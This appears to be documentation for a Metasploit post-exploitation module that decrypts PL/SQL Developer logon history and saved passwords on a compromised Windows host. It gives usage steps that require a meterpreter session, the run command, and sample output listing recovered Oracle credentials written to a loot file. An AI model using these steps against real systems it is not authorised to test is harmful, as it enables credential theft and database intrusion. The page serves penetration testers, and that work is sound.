 ## Vulnerable Application

This module can decrypt the history of PL/SQL Deceloper, and passwords are available if the user chooses to remember the password.

  Analysis of encryption algorithm [here](https://adamcaudill.com/2016/02/02/plsql-developer-nonexistent-encryption/).

  You can find its official website [here](https://www.allroundautomations.com/products/pl-sql-developer/).

## Verification Steps

  1. Download and install PL/SQL Developer.
  2. (Optional) Change the PL/SQL Developer preference to save the passwords.
  3. Use PL/SQL Developer to log in to oracle databases.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/plsql_developer```
  6. The username, password (only when configured to save passwords), SID of logon histories will be printed.

## Options

 **PLSQL_PATH**

  - Specify the path of PL/SQL Developer

## Scenarios

```
meterpreter > run windows/gather/credentials/plsql_developer

[*] Gather PL/SQL Developer History and Passwords on WIN-XXXXXXXXXXX
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
PL/SQL Developer History and Passwords
======================================

History
-------
sys/oracle@ORCL AS SYSDBA
test1/@ORCL
test2/password2@ORCL
user/password@server

[+] Passwords stored in: C:/Users/Administrator/.msf4/loot/20231026190630_default_127.0.0.1_host.plsql_devel_674990.txt
meterpreter >
```
